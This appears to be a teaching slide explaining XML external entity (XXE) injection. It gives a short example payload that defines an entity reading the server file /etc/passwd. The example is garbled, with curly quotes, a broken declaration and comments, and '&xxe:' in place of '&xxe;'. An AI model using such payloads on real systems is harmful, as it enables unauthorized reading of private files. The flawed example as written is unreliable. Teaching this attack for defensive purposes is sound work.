

# XML external entities(XXE)
 XML external entities are another instance of an injection flaw. All applications that use XML are susceptible to this attack. The idea behind external entities in XML is to allow reuse of existing XML files. However, an attacker can use this feature to include links to private XML files, allowing them to read private data indirectly through their uploaded XML file.
Example external XML entity injection:
<?xml version=“1.0” encoding=“ISO-8859-1”?
<!DOCTYPE a [
     <!ELEMENT a ANY >
     <!– this defines a new entity called xxe
      from a private file -->
      <!ENTITY xxe SYSTEM “file:///etc/passwd”  >
]>
<!—here the entity is rendered to display
The file content -- >
<a>&xxe:</a>